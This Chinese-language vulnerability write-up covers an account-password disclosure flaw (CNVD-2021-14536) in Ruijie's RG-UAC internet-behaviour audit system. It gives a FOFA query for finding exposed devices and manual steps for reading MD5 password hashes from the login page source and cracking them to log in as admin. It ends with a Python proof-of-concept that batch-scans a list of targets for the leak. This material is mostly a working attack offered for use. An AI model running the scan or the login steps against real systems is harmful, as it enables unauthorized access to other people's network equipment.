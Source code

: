 # 锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露 CNVD-2021-14536

## 漏洞描述

锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露,可以间接获取用户账号密码信息登录后台

## 影响版本

> [!NOTE]
>
> 锐捷RG-UAC统一上网行为管理审计系统

## FOFA

> [!NOTE]
>
> title="RG-UAC登录页面"

## 漏洞复现

来到登录页面

![](image/ruijie-1.png)

按F12查看源码,可以发现账号和密码的md5形式

![](image/ruijie-2.png)

解密md5得到密码后即可登录系统

![](image/ruijie-3.png)

![](image/ruijie-4.png)



## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: 锐捷RG-UAC统一上网行为管理审计系统                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "super_admin" in response.text and "password" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,F12查看源码获取密码md5值 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```

![](image/ruijie-14.png)